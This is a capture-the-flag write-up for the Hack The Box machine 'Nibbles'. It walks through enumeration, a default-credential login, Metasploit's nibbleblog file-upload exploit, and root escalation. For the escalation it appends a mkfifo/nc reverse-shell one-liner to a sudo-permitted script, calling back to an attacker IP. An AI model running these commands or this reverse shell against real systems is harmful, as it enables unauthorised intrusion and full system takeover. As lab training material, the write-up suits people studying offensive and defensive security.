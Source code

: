![logo](/logo.png)

# [Nibbles- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 13 Jan 2018 as the fifth machine on HTB,Nibbles  created by [mrb3n](https://app.hackthebox.com/users/2984) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *msfconsole
  *monitor.sh
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/bashed 10.10.10.76
```

###### Output 

![](/Linux/Linux-Easy/Nibbles/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/nibbles 10.10.10.75                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 20:05 EAT
Nmap scan report for 10.10.10.75
Host is up (0.55s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.12 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.18`. 

port[22]- ssh
port[80]- http

when we naviagate to [http://10.10.10.75](http://10.10.10.75)  we find a page with the hello word . Attempting to view the source of index.html reveals a comment referencing a `/nibbleblog/directory`.

![](/Linux/Linux-Easy/Nibbles/Screenshots/sources.png)

lests `fuzz` for the files in the `nibblesdirectory`  

```sh
ffuf -u http://10.10.10.75/nibblesblog/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .txt,.md,.php
```

![](/Linux/Linux-Easy/Nibbles/Screenshots/ffuf.png)


we find some intersting things on the directory like `admin.php` lets navigate to it and see what is their

![](/Linux/Linux-Easy/Nibbles/Screenshots/nibbles.png)


so when In exploring the resulting paths, `/nibbleblog/content` is interesting, and has dir lists enabled. Digging deeper, there’s a page at `/nibbleblog/content/private/users.xml` which reveals a user, `admin`, as well as the IPs that have tried to log in as it:

![](/Linux/Linux-Easy/Nibbles/Screenshots/images.png)

so lets log in and be able to guess the passwords first which is (admin:nibbles)

![](/Linux/Linux-Easy/Nibbles/Screenshots/loggedin.png)

A quick search finds the Metasploit module `exploit/multi/http/nibbleblog_file_upload`, however this exploit requires valid credentials (admin:nibbles)

```sh
msfconsole
search nibble
use 0
show options
```

![](/Linux/Linux-Easy/Nibbles/Screenshots/msfconsole.png)

```sh
set TARGETURI /nibbleblog/
set USERNAME admin
set PASSWORD nibbles
set RHOSTS 10.10.10.75
set LHOST 10.10.14.15
run
```

![](Linux/Linux-Easy/Nibbles/Screenshots/meterpreter.png)

and we get a `meterpreter shell`  let upgrade to shell

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

Running sudo -l to check for any NOPASSWD binaries reveals an entry for `/home/nibbler/personal/stuff/monitor.sh`.

![](/Linux/Linux-Easy/Nibbles/Screenshots/sudol.png)

we can get the user flag from 

![](/Linux/Linux-Easy/Nibbles/Screenshots/userflag.png)

This file does not exist however, so it is possible to create a simple bash script in its place to achieve root access.

![](/Linux/Linux-Easy/Nibbles/Screenshots/mkdir.png)

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 1337 > /tmp/f" >> monitor.sh
```

![](/Linux/Linux-Easy/Nibbles/Screenshots/echosh.png)

and just like that we have our shell

![](/Linux/Linux-Easy/Nibbles/Screenshots/shellroot.png)

	-------------------------END successful attack @lesley----------------------








